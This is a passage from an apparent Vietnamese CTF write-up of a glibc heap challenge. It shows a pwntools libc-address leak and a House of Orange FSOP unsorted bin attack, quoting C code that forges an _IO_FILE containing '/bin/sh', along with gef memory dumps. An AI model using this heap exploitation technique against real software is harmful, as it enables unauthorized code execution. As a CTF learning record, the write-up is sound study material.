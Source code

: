 ```python 
print(hex(libc.address))
system = libc.sym.system
io_list_all = libc.sym._IO_list_all
print(hex(system))
print(hex(io_list_all))
```

### Stage 3: Attack unsorted bins by FSOP 

- đến bước này rất khó nên mình đành phải tham khảo wu và hướng dẫn của how2heap mà làm theo :))
- Nightmare: https://guyinatuxedo.github.io/43-house_of_orange/house_orange_exp/index.html?fbclid=IwAR0H5zxM7wWrf7jj8mEbZWvOOK0fD03slSMGcQM1nwFM3ID5_gAQpmM0PHw
- đầu tiên thì để làm fake IO_FILE thì cần orw thoải mái, vì vậy ta cần fake size của page idx 0 trước 
- điều này khá đơn giản khi ta chỉ cần tạo ra 9 page là được, địa chỉ page thứ 9 sẽ orw vào size của page 0, lúc này ta thoải mái orw rồi 

![image](https://github.com/gookoosss/CTF/assets/128712571/126b15c2-eb67-4a6e-8f8b-0c00010fed28)


- giờ thì ta làm chill chill theo hướng dẫn ở trên thôi :))

```
// Now we will prep for an unsorted bin attack here
// For this, we will write to the first value in _IO_list_all the start of the unsorted bin, main_arena+88
// This value is a ptr to the first chunk in the unsorted bin, which will be the old top chunk we have an overflow to
// In this case this chunk gets split up to serve allocation requests (which it will) the bk chunk's fwd pointer gets overwritten with the unsorted bin list
// In other words topChunk->bk->fwd = unsorted bin list (which is a ptr to the old top chunk)
```
- đoạn này hiểu là thằng top chunk cũ đang trong usorted bin là main_arena+88, ta sẽ FSOP tại đây
- vì vậy ta sẽ tính offset từ page 0 đến old top chunk là 0x170 

```c 
// Now we will finally set up the _IO_FILE struct, which will overlap with the old top chunk currently in the unsorted bin
// However the first 8 bytes, we will write our input a pointer to it will be passed to the instruction pointer we are calling

    memcpy(topChunk, "/bin/sh", 8);
```
- hmm đoạn này hiểu là topChunk[0] = '/bin/sh\0'

```c 
    // Now the next thing we will need to set is the size of the old top chunk
    // We will shrink it down to the size of a small bin chunk, specifically 0x61
    // This will serve two purposes
    // When malloc scans through the unsorted bin and sees this chunk, it will try to insert it into small bin 4 due to its size
    // So this chunk will also end up at the head of the small bin 4 list, as we can see here in memory:

    /*
    gef➤  x/10g 0x7ffff7dd1b78
    0x7ffff7dd1b78 <main_arena+88>:    0x624010    0x0
    0x7ffff7dd1b88 <main_arena+104>:    0x602400    0x7ffff7dd2510
    0x7ffff7dd1b98 <main_arena+120>:    0x7ffff7dd1b88    0x7ffff7dd1b88
    0x7ffff7dd1ba8 <main_arena+136>:    0x7ffff7dd1b98    0x7ffff7dd1b98
    0x7ffff7dd1bb8 <main_arena+152>:    0x7ffff7dd1ba8    0x7ffff7dd1ba8
    gef➤  x/4g 0x6023f0
    0x6023f0:    0x0    0x0
    0x602400:    0x68732f6e69622f    0x61
    */
    topChunk[1] = 0x61;
```